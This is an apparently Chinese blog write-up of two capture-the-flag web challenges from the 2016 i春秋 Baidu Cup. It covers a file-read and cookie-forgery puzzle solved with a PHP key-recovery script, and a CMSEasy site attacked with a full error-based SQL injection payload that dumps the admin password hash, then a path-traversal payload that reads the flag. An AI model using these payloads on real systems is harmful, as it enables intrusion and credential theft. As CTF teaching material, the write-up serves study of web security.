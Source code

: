```yaml
---
layout: post
title: "CTF:I春秋百度杯9月第一周Write-up"
date:   2016-10-17
excerpt: "I春秋百度杯CTF9月份第一周Write-up"
tag:
- Web
- CTF
---
```

<h2 id="-write-up">第一周Write-up</h2>
<h3 id="code-">Code:</h3>
<p>　　提示：考脑洞题<br>　　打开题目后显示一张图片，在url中可以看到，/index.php?jpg=hei.jpg<br><img src="/images/postimage/2016-10-17-baiductf_901/1.png" alt=""><br>　　尝试访问/index.php?jpg=index.php<br>　　BINGO!<br>　　得到<br><img src="/images/postimage/2016-10-17-baiductf_901/2.png" alt=""><br>　　可以看到一串base64编码<br>　　通过base64解码，得到以下代码：</p>

<blockquote>
<p>&lt;?php<br>/**<br>* Created by PhpStorm.<br> * Date: 2015/11/16<br> * Time: 1:31<br> */<br>header(&#39;content-type:text/html;charset=utf-8&#39;);<br>if(! isset($<em>GET[&#39;jpg&#39;]))<br>　　header(&#39;Refresh:0;url=./index.php?jpg=hei.jpg&#39;);<br>$file = $_GET[&#39;jpg&#39;];<br>echo &#39;<title>file:&#39;.$file.&#39;</title>&#39;;<br>$file = preg_replace(&quot;/[^a-zA-Z0-9.]+/&quot;,&quot;&quot;, $file);<br>$file = str_replace(&quot;config&quot;,&quot;</em>&quot;, $file);<br>$txt = base64_encode(file_get_contents($file));</p>
<p>echo &quot;&lt;img src='data:image/gif;base64,".$txt."'>&lt;/img>&quot;;<br>/*<br> * Can you find the flag file?<br> *<br> */</p>
<p>?&gt;</p>
</blockquote>

<p>　　从代码中可以看到在url中将a-z,A-Z,0-9以及.以外的所以字符全部替换为&quot;&quot;<br>　　并且将config替换为<em><br>　　起初怀疑是绕过config.php，但发现config.php无法绕过<br>　　转而看到phpstorm，查看phpstorm生成的/.idea/workspace.xml文件<br><img src="/images/postimage/2016-10-17-baiductf_901/3.png" alt=""><br>　　可以看出，还有fl3g_ichuqiu.php，猜测flag在这个文件里<br>　　访问发现没有有价值的内容，由于在正则中将</em>过滤了<br>　　通过config和_之间的替换绕过该正则，访问/index.php?jpg=fl3gconfigichuqiu.php<br>　　得到<br><img src="/images/postimage/2016-10-17-baiductf_901/4.png" alt=""><br>　　再此解码得到：</p>
<blockquote>
<p>&lt;?php<br>/**<br> * Created by PhpStorm.<br> * Date: 2015/11/16<br> * Time: 1:31<br> */<br>error_reporting(E_ALL || ~E_NOTICE);<br>include(&#39;config.php&#39;);<br>function random($length, $chars = &#39;ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz&#39;) {<br>　　$hash = &#39;&#39;;<br>　　$max = strlen($chars) - 1;<br>　　for($i = 0; $i &lt; $length; $i++)    {<br>　　$hash .= $chars[mt_rand(0, $max)];<br>　　}<br>　　return $hash;<br>}</p>
<p>function encrypt($txt,$key){<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　$tmp .= chr(ord($txt[$i])+10);<br>　　}<br>　　$txt = $tmp;<br>　　$rnd=random(4);<br>　　$key=md5($rnd.$key);<br>　　$s=0;<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　if($s == 32) $s = 0;<br>　　}<br>　　return base64_encode($rnd.$ttmp);<br>}</p>
<p>function decrypt($txt,$key){<br>　　$txt=base64_decode($txt);<br>　　$rnd = substr($txt,0,4);<br>　　$txt = substr($txt,4);<br>　　$key=md5($rnd.$key);</p>
<p>　　$s=0;<br>　　for($i=0;$i&lt;strlen($txt);$i++){<br>　　　　if($s == 32) $s = 0;<br>　　　　$tmp .= $txt[$i]^$key[++$s];<br>　　}<br>　　　for($i=0;$i&lt;strlen($tmp);$i++){<br>　　　　$tmp1 .= chr(ord($tmp[$i])-10);<br>　　}<br>　　return $tmp1;<br>}</p>
<p>$username = decrypt($_COOKIE[&#39;user&#39;],$key);<br>if ($username == &#39;system&#39;){<br>　　echo $flag;<br>}else{<br>　　setcookie(&#39;user&#39;,encrypt(&#39;guest&#39;,$key));<br>　　echo &quot;╮(╯▽╰)╭&quot;;<br>}<br>?&gt;</p>
</blockquote>
<p>　　通过抓包发现在cookies中多出了user一项</p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/5.png" alt=""><br>　　该user值为setcookie(&#39;user&#39;,encrypt(&#39;guest&#39;,$key));的值，通过该值和encrypt可以得到5位key值。<br>　　而已知key值为md5，在加密system时用到的key值中的前6位，故最后一位未知的有16种可能。<br>　　依照这个思路编写php代码如下：</p>
<blockquote>
<p>?&lt;?php<br>$txt=&quot;guest&quot;;<br>$ttmp=&quot;aU1aVxJMDElN&quot;;<br>$ttmp=base64_decode($ttmp);<br>$rnd=substr($ttmp,0,4);<br>$ttmp=substr($ttmp,4);<br>for($i=0;$i&lt;strlen($txt);$i++){<br>　　$tmp.=chr(ord($txt[$i])+10);<br>}<br>$txt=$tmp;<br>$tmp=&quot;&quot;;<br>for($i=0;$i&lt;strlen($ttmp);$i++){<br>　　$key .= $txt[$i] ^ $ttmp[$i];<br>}<br>$md5guess=&quot;0123456789abcdef&quot;;<br>$txt1=&quot;system&quot;;<br>for($i=0;$i&lt;strlen($txt1);$i++){<br>　　$tmp.=chr(ord($txt1[$i])+10);<br>}<br>$txt1=$tmp;</p>
<p>$tmp=&quot;&quot;;<br>for($i=0;$i&lt;16;$i++){<br>　　$tkey=$key.$md5guess[$i];<br>　　for($j=0;$j&lt; strlen($txt1);$j++){<br>　　$rresult .= $txt1[$j]^$tkey[$j];<br>}<br>$result=base64_encode($rnd.$rresult);<br>echo $result;<br>echo &#39;&lt;/br&gt;&#39;;<br>$rresult=&quot;&quot;;<br>}<br>?&gt;</p>
</blockquote>
<p>运行后得出以下结果：<br><img src="/images/postimage/2016-10-17-baiductf_901/6.png" alt=""><br>将其写入txt文档，并导入burp中跑。<br><img src="/images/postimage/2016-10-17-baiductf_901/7.png" alt=""></p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/8.png" alt=""></p>
<p><img src="/images/postimage/2016-10-17-baiductf_901/9.png" alt=""><br>得到FLAG！</p>

<h3 id="yesercms-">YeserCMS:</h3>
<p><img src="/images/postimage/2016-10-17-baiductf_901/10.png" alt=""></p>
<p>　　通过浏览网页发现该网站使用的是CMSEASY，搜索该CMS漏洞。<br>　　使用缺陷编号： WooYun-2015-137013<br>　　漏洞标题： cmseasy 无限制报错注入（php函数的坑） </p>
<p>　　构造payload：<br>　　xajax=Postdata&amp;xajaxargs[0]=&lt;xjxquery&gt;&lt;q&gt;detail=xxxxxx%2527%252C%2528UpdateXML%25281%252CCONCAT%25280x5b%252Cmid%2528%2528SELECT%252f%252a%252a%252fGROUP_CONCAT%2528concat%2528password%2529%2529%2520from%2520yesercms_user%2529%252C1%252C32%2529%252C0x5d%2529%252C1%2529%2529%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%252CNULL%2529--%2520&lt;/q&gt;&lt;/xjxquery&gt;<br>　　成功注入：<br><img src="/images/postimage/2016-10-17-baiductf_901/11.png" alt=""><br>　　密码MD5未显示全，通过调整mid函数的1,32参数，改为2，33查看最后一位MD5值。<br><img src="/images/postimage/2016-10-17-baiductf_901/12.png" alt=""><br>　　最终密码md5为：ff512d4240cbbdeafada404677ccbe61<br>　　解密为：Yeser231</p>
<p>　　进入后台，对源码进行代码审计，发现在模板编辑处的fetch操作存在注入。<br>　　post to /index.php?case=template&amp;act=fetch&amp;admin_dir=admin&amp;site=default<br>　　payload：&amp;id=#../../flag.php<br>　　通过文件包含拿到flag</p>
